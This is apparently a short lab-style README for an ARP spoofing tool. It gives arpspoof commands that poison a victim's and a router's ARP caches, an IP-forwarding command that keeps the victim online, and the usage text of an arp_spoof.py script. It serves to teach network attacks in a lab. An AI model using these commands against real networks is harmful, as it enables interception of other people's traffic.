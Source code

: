 # ARP Spoofer

use `arpspoof`

command: `arpspoof -i <interface> -t <target> <gateway>`

example: `arpspoof -i eth0 -t 10.0.2.15 10.0.2.1`

Let's say the victim is `10.0.2.15`, and the router is `10.0.2.1`.

Open two shells:

- Spoof the target, pretend to be the router: `arpspoof -i eth0 -t 10.0.2.15 10.0.2.1`

- Spoof the router, pretend to be the victim target: `arpspoof -i eth0 -t 10.0.2.1 10.0.2.15`

Meantime at the victime machine, type `arp -a` the router's MAC address will become attack machine's MAC address.

Set ip forwarding so victim machine can access the internet: `sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'`

---

```sh
usage: arp_spoof.py [-h] [-t TARGET] [-g GATEWAY]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target ip
  -g GATEWAY, --gateway GATEWAY
                        Gateway ip
```